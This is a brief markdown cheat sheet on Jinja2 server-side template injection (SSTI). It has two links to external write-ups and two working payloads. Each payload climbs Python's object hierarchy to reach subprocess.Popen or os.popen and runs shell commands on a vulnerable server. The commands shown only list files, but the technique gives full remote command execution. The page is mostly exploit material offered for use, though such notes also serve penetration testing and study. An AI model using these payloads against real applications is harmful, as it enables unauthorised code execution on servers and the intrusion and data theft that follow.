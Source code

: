# SSTI

{% embed url="https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2" %}

{% embed url="https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti" %}

```
#subproces
{{ ''.__class__.__mro__[1].__subclasses__()[223]('ls ./* -lah', shell=True, stdout=-1).communicate()[0].decode('utf-8') }}
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```


